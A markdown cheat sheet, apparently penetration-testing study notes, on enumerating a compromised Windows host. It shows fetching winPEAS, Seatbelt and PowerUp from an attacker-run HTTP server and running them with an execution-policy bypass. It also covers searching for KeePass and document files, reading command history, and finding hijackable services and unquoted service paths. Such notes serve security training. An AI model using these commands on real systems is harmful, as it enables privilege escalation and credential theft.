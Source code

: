 # Windows Enumeration
Having gained a foothold on a Windows machine by whatever mechanism the following items are important steps for us to gain situational awareness, with each item potentially proving critical to a successful effort at privilege escalation or lateral movement:

## Automatic Enumeration

### winPEAS
Tool for the automatic discovery of interesting files, permissions misconfigurations etc.

In Kali:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
On the target machine:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
### Seatbelt
Similar to `winPEAS` but different? Search for `compiled seatbelt github download`, and grab the `Seatbelt.exe` file. Transfer to target in the usual fashion:
```bash
python3 -m http.server 80
```
And run on the target:
```powershell
iwr -uri http://192.168.118.2/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```
### PowerUp.ps1
Explicitly a Windows enumeration and privesc tool. Nb. This tool (like most) should not be trusted implicitly always and if it offers no/insufficient usable information then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
Load the Powershell module:
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
```
```powershell
powershell -ep bypass
```
```powershell
. .\PowerUp.ps1
```
To find Binaries that run with privilege that can be modified:
```powershell
Get-ModifiableServiceFile
```
To find exploitable unquoted service paths:
```powershell
Get-UnquotedService
```

Look upon our exploitable shit ye mighty and despair!

## Manual Enumeration

### Account Policy
```cmd
net accounts
```
### Username and hostname
```cmd
whoami
```
### Group memberships of the current user
```cmd
whoami /groups
```
### Our current privilege
```cmd
whoami /priv
```
### Existing users and groups
```powershell
Get-LocalUser
```
```powershell
Get-LocalGroup
```
```powershell
Get-LocalGroupMember adminteam
```
```powershell
Get-LocalGroupMember Administrators
```
CMD command for miscllelaneous info on a particular user:
```cmd
net user <username>
```
### Operating system, version and architecture
```powershell
systeminfo
```
### Network information
To list all network interfaces:
```powershell
ipconfig /all
```
To display the routing table and potentially enumerate links to other systems or networks that haven't yet been enumerated:
```powershell
route print
```
To enumerate the active network connections on a Windows system (with no DNS resolution):
```powershell
netstat -ano
```
### Installed applications
To enumerate all 32 bit applications installed on the machine:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
and for the 64 bit applications:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Nb. this is not necessarily a complete list, never forget to check the `C:\ProgramFiles*` directories, as well as the `C:\tools` and `Downloads` paths.
### Running processes
```powershell
Get-Process
```
To find the binary running that process:
```powershell
Get-Process | Select-Object Path
```
### Finding Critical Files
KeePass files:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
XAMPP Web Server config:
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Misc. Data File Discovery:
```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

### Impersonation
If we have a GUI session then we can run a new session as a different user with:
```powershell
runas /user:admin cmd
```

### Command History
```powershell
Get-History
```
```powershell
(Get-PSReadlineOption).HistorySavePath | ForEach-Object {cat $_}
```

### Installed Windows Services
Necessary to run this in an RDP session since `Get-CimInstance` (and `Get-Service` for that matter) will produce permission denied errors in a shell or WinRM session:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
Get starting mode of a win32 service, in the event we can't restart it and this value is set to `Auto` then a system reboot could let us hijack the service having previously edited the executable:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<target service>'}
```

### icacls
Enumerate which users/groups have what privileges on a binary (nb. beneficial to use `icacls` over `Get-ACL` since the former will work on `cmd` as well!):
```powershell
icacls "C:\path\to\interesting.exe"
```
Mask to permissions mapping (nb. A preceding 'I' indicates the access right is inherited):

- F 	Full access
- M 	Modify access
- RX 	Read and execute access
- R 	Read-only access
- W 	Write-only access

### Unquoted Service Paths
Again, this will run in `cmd` or `Powershell`:
```cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### Scheduled Tasks
```cmd
schtasks /query /fo LIST /v
```